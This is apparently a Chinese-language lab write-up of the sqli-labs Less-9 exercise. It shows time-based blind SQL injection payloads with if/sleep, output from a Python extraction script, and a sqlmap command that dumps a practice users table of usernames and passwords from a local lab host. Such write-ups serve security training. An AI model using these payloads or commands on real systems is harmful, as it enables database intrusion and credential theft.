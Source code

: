 ```yaml
---
title: less9
url: https://www.yuque.com/u29002979/ep2zrx/mgmsa0t9su37pbv4
---
```


```bash
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

`?id=1`显示You are in...........
`id=1'`也显示You are in...........
&#x20;尝试了N种闭合方式之后发现页面的**回显都是一样的**并且**没有任何报错信息**，
通过源码找到字符型闭合 ’
浅试一下**时间盲注**\ <a name="V17MH"></a>

# 时间盲注

<a name="kObnI"></a>

## 猜解数据库名称

> **if(1,sleep(5),0)**
> if()函数中，
>
> - x为布尔盲注中的长度、字符猜测语句，如：length(database())=1
> - sleep()函数，a为时间间隔，如果前面的语句x为真，则在页面出来前间隔a秒；
> - 0：占位

`?id=-1' or if(ascii(mid(database(),1,1))<=135,sleep(5),0)--+` 延时五秒了 <a name="kSZVm"></a>

## 猜解数据表名称

`?id=-1' or if(mid((select group_concat(table_name) from information_schema.tables where table_schema=database(),1,1)='e'),sleep(5),0)--+` <a name="j47RV"></a>

## 猜解字段名称

`?id=-1' or if(mid((select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),1,1)='e',sleep(5),0)--+` <a name="aRdmK"></a>

## 猜解字段内容

`?id=-1' or if(mid((select group_concat(username,0x7e,password) from users),1,1)='D',sleep(5),0)--+`

<a name="REjRI"></a>

# 用python跑时间盲注

[time-blind.py](https://www.yuque.com/attachments/yuque/0/2022/py/29430497/1668822268338-e637faec-85f6-486f-aebb-01a572063c08.py?_lake_card=%7B%22src%22%3A%22https%3A%2F%2Fwww.yuque.com%2Fattachments%2Fyuque%2F0%2F2022%2Fpy%2F29430497%2F1668822268338-e637faec-85f6-486f-aebb-01a572063c08.py%22%2C%22name%22%3A%22time-blind.py%22%2C%22size%22%3A3708%2C%22type%22%3A%22text%2Fx-python%22%2C%22ext%22%3A%22py%22%2C%22source%22%3A%22%22%2C%22status%22%3A%22done%22%2C%22mode%22%3A%22title%22%2C%22download%22%3Atrue%2C%22taskId%22%3A%22uae8e72ad-3444-4889-b4c9-55bfc76ab54%22%2C%22taskType%22%3A%22upload%22%2C%22__spacing%22%3A%22both%22%2C%22id%22%3A%22u943232bd%22%2C%22margin%22%3A%7B%22top%22%3Atrue%2C%22bottom%22%3Atrue%7D%2C%22card%22%3A%22file%22%7D)

> url = "http://192.168.31.193/Less-10/?id=1'"

```bash
┌──(root㉿guoyx)-[/home/kali/sql-python]
└─# python3 time-blind.py  
数据库名为->s
数据库名为->se
数据库名为->sec
数据库名为->secu
数据库名为->secur
数据库名为->secur
数据库名为->secur
数据库名为->secury
第一个表为->e
第一个表为->em
第一个表为->ema
第一个表为->emai
第二个表为->r
第二个表为->re
第二个表为->ref
第二个表为->refr
第三个表为->u
```

<a name="FUnXU"></a>

# sqlmap

```bash
┌──(root㉿guoyx)-[~]
└─# sqlmap -u 192.168.31.193/Less-9/?id=1 --batch -D "security" -T "users" --dump

Database: security
Table: users
[13 entries]
+----+------------+----------+
| id | password   | username |
+----+------------+----------+
| 1  | Dumb       | Dumb     |
| 2  | I-kill-you | Angelina |
| 3  | p@ssword   | Dummy    |
| 4  | crappy     | secure   |
| 5  | stupidity  | stupid   |
| 6  | genious    | superman |
| 7  | mob!le     | batman   |
| 8  | admin      | admin    |
| 9  | admin1     | admin1   |
| 10 | admin2     | admin2   |
| 11 | admin3     | admin3   |
| 12 | dumbo      | dhakkan  |
| 14 | admin4     | admin4   |
+----+------------+----------+
```
